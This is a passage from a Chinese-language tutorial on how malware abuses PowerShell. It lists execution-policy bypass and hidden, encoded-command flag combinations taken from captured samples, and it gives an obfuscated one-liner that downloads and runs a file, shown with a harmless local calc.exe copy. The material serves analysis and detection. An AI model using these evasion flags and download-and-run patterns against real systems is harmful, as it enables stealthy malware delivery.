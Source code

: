 与ByPass类似，但会在运行从Internet下载的未签名脚本前警告用户。使用此参数的脚本在试图执行从Internet下载的脚本时会触发警告信息。

变种使用方法：
```
方式1：	"-ExecutionPolicy Unrestricted"
```

- Command

利用该参数可以执行参数后面的命令，就如同直接在PowerShell提示符下输入命令一样。我只捕捉到一个样本，它直接附加到某个恶意软件中，该恶意软件在FireEye发布的一篇关于绕过基于签名的检测方法的博文中提到过。该PowerShell脚本包含在一个DOCM文件的“Comments“域中，通过Word文档的宏加载执行。以下是该样本的恶意PowerShell代码片段，通过将多条命令组合在一起，可以实现FTP传输和NetCat建连目的。

变种使用方法：
```
方式1：	"-c"
```

常见组合示例代码：

```
方式1：	"-window hidden -enc"
方式2：	"-enc"
方式3：	"-nop -noni -enc"
方式4：	"-NoP -sta -Nonl -W Hidden -Enc"
方式5：	"-EncodedCommand"
方式6：	"-ep bypass -noni -W Hidden -Enc"
方式7：	"-Nop -Nonl -W Hidden -Enc"
方式8：	"-nop -win hidden -noni -enc"
方式9：	"-executionpolicy bypass -windowstyle hidden -enc"
方式10：	"-nop -exec bypass -win Hidden -noni -enc"
```

测试下载本地计算器示例代码：

1）下载文件：在捕获到的样本中最常用的办法就是使用.net框架下的System.Net.WevClient类的DownloadFile()方法来下载文件。
2）运行文件：运行计算机上的可执行文件或文档，例如.exe或.txt文件。


示例代码：01-PowerShell基本语句.ps1


```
# 1、下载文件

pOWErsHell.ExE -exEcUTIonPOLICy BYpAsS -nOprOFile -winDOWStyLE HiDden (NEW-objeCt SYSTeM.Net.weBCLIEnT).DOWNloaDfIlE('file://C:\Windows\System32\calc.exe','D:\powershell_calc.EXE');

# 1.1 拆分代码

$client = new-object System.Net.WebClient
$client.DownloadFile(‘file://C:\Windows\System32\calc.exe’, ‘D:\powershell_calc.EXE’)


# 2、运行文件

sTArt-PrOCeSS 'D:\powershell_calc.EXE'

```
